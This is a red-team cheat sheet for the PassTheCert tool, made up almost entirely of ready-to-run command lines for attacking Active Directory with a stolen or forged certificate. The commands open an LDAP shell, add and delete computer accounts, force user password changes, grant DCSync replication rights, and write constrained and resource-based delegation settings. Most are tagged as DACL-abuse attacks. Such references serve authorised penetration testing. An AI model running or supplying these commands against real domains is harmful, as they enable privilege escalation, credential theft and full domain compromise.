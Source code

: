 # passthecert

% certificate, windows, Active directory, shadow credential, rbcd, dcsync, pkinit, certificate

## download
```
https://github.com/AlmondOffSec/PassTheCert
```

## doc
```
https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html
```


## Computer mgt - add (windows)
#plateform/windows #target/remote  #cat/UTILS
```powershell
.\PassTheCert.exe --server ad1.contoso.com --cert-path Z:\ad2.pfx --add-computer --computer-name DESKTOP-1337$
```


## ldapshell  (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE

```bash
passthecert.py -action ldap-shell -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip>
```

## Computer mgt - add (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action add_computer -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip> -computer-name <computer_name|Jubeaz>$ -computer-pass <password|Zaebuj12345+->
```

## Computer mgt - del (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action del_computer -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip> -computer-name <computer_name|Jubeaz>$ 
```

## Computer mgt - change password (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action modify_computer -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip> -computer-name <computer_name|Jubeaz>$ -computer-pass <password|Zaebuj12345+->
```

## User mgt - change password (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action forcePWDchange -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip> -target user_sam -new-pass <password|Zaebuj12345+->
```

## User mgt - DCSYNC (linux)
 ```bash
passthecert.py -action modify_user -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip> -target <user> -elevate
 ```
 
 ## constrained delegation - add (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action add_computer -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip> -computer-name <computer_name|Jubeaz>$ -delegated-services <spn1>,<spn2>
```

## rbcd - add (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
Write new SIDs to the msDS-AllowedToActOnBehalfOfOtherIdentity

```bash
passthecert.py -action write_rbcd -crt <certficcate>.crt -key <certficcate>.key -domain <domain> -dc-ip <dc_ip> -delegate-to <target>$ -delegate-from <computer_name|Jubeaz>$
```